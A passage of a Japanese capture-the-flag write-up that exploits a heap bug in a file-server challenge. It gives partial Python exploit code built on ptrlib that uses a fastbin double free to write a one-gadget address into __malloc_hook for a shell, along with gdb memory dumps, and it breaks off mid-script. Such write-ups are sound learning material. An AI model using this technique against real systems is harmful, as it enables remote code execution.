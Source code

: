 fastbinが上の状態になった後にすべき処理は以下の3つでしょう。
```python
upload_file("X.EXE", 0x70, p64(__malloc_hook - 0x20 - 3) + b"\x00" * 0x68)
upload_file("Y.EXE", 0x70, b"Y" * 0x70)
upload_file("Z.EXE", 0x70, b"\x00" * 0x13 + p64(addr_one_gadget) + b"\x00" * 0x55)
```
これで`__malloc_hook`にone gadget rceのアドレスが書き込まれ、以降mallocした瞬間にシェルが奪えるはずです。

さて、どうやって上述のdouble freeを引き起すかですが、RENAMEのオーバーフローで適当なfdpのdataをサイズが0x70の別のdataのアドレスに向けて、両方のファイルを削除すれば良さそうです。
なぜなら、これらの2つのファイルを削除すると、サイズ0x70が入るfastbinに同じアドレスが2つ入るからです。

とりあえずサイズ0x70の領域を確保して、そのアドレスを計算しましょう。
~~リークした`A.BIN`の`fdp->data`から0x90バイト先にヒープを指すアドレスがあるのですが、そのアドレスから0x1060バイト先に確保した0x70バイトの領域(`C.BIN`のdata)があります。~~
```
gdb-peda$ x/16wx 0x559342c1d340
0x559342c1d340: 0x52f107b8      0x00007fda      0x52f107b8      0x00007fda
0x559342c1d350: 0x00000000      0x00000000      0x00000000      0x00000000
0x559342c1d360: 0x42424242      0x42424242      0x42424242      0x42424242
0x559342c1d370: 0x42424242      0x42424242      0x42424242      0x42424242
gdb-peda$ x/16wx 0x559342c1d340 + 0x1060
0x559342c1e3a0: 0x43434343      0x43434343      0x43434343      0x43434343
0x559342c1e3b0: 0x43434343      0x43434343      0x43434343      0x43434343
0x559342c1e3c0: 0x43434343      0x43434343      0x43434343      0x43434343
0x559342c1e3d0: 0x43434343      0x43434343      0x43434343      0x43434343
```
~~ということで、`A.BIN`の`fdp->data`を`C.BIN`の`fdp->data`に向けてやって、`C.BIN`と`A.BIN`を削除すればdouble freeできるはずです。~~

RENAMEには`strlen(fn1) >= 32`をチェックする機能があったので`A.BIN`はもう使えませんでした。
そもそも`C.BIN`の`fdp->data`の下位1バイトが英数字になるように調節するのが面倒だしlibcが合ってるか問題もあるし先が長すぎる。

時間と体力の限界が来たので参考文献[1]のwriteupを写経しようと思います。
writeupのコードを読んだところ、新しくファイルを作って、その内容を偽のfiledata構造体として、そのdataをサイズが0x70のチャンクに向けるようです。
さらに、サイズ0x70のチャンクは2つ作ってすぐにfreeしています。
先に書いておいた偽のfiledataから、これら2つのdataを指すようにします。
そして偽のfiledataをdataとして持つfiledataをRENAMEするときにentriesの下位1バイトを上書きして偽のfiledataに向けます。
こうすれば元のentriesと偽のfiledataのアドレスが近いため下位1バイトの上書きでできます。

なぜ2つのファイルを削除したかというと、fastbin corruptionの検知を回避するためです。
連続して同じアドレスを繋いでしまうとtcacheとは違って検知されてしまいます。

あとは偽のfiledataに書いたファイル名で削除するとdouble freeできます。

ちなみにlibcのバージョンは合っていたようです。

```python
from ptrlib import *

def upload_file(filename, size, data):
    assert isinstance(filename, str)
    sock.sendline("PUT {} {}".format(filename, size))
    sock.send(data)

def download_file(filename):
    assert isinstance(filename, str)
    sock.sendline("GET {}".format(filename))
    sock.recvuntil("get ")
    size = int(sock.recvuntil(" "))
    sock.recvline()
    return sock.recv(size)

def delete_file(filename):
    assert isinstance(filename, str)
    sock.sendline("DELE {}".format(filename))

def rename_file(filename1, filename2):
    assert isinstance(filename1, str)
```